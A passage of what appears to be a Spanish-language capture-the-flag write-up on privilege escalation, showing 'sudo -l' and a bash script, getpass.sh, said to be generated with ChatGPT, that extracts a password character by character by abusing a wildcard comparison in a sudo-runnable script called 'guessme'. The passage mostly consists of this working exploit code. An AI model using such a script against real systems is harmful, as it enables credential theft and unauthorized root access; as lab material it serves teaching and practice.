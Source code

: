 ```bash
sudo -l
```

Analizamos el script `guessme` y utilizamos ChatGPT para generar un script en bash que aproveche la vulnerabilidad y adivine la contraseña. En este punto estábamos un poco cansados y no teníamos ganas de escribir código 😅

**getpass.sh**

```bash
#!/bin/bash
# Conjunto de caracteres a probar; puedes ampliarlo según tus necesidades.
alphabet='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_=+[]{};:,.<>/?`~'

# Variable para almacenar el prefijo encontrado (la contraseña)
password=""

# Función que ejecuta guessme con un input dado y devuelve la salida
function test_guess() {
    local guess="$1"
    # Se envía el input sin salto de línea adicional
    echo -n "$guess" | sudo /bin/bash /home/ll104567/guessme 2>/dev/null
}

echo "Iniciando extracción de contraseña..."

while true; do
    # Primero, probamos si el prefijo actual ya es la contraseña completa.
    output=$(test_guess "$password")
    if [[ "$output" == *"Password matches!"* ]]; then
        echo "¡Contraseña encontrada: $password!"
        break
    fi

    found=0
    # Iteramos por cada carácter del alfabeto
    for (( i=0; i<${#alphabet}; i++ )); do
        c="${alphabet:$i:1}"
        guess="${password}${c}*"
        output=$(test_guess "$guess")
        if [[ "$output" == *"Password matches!"* ]]; then
            password="${password}${c}"
            echo "Caracter encontrado: '$c' -> Contraseña parcial: $password"
            found=1
            break
        fi
    done

    # Si no se encontró extensión, se detiene el script.
    if [ $found -eq 0 ]; then
        echo "No se pudo extender la contraseña. Contraseña parcial: $password"
        break
    fi
done
```
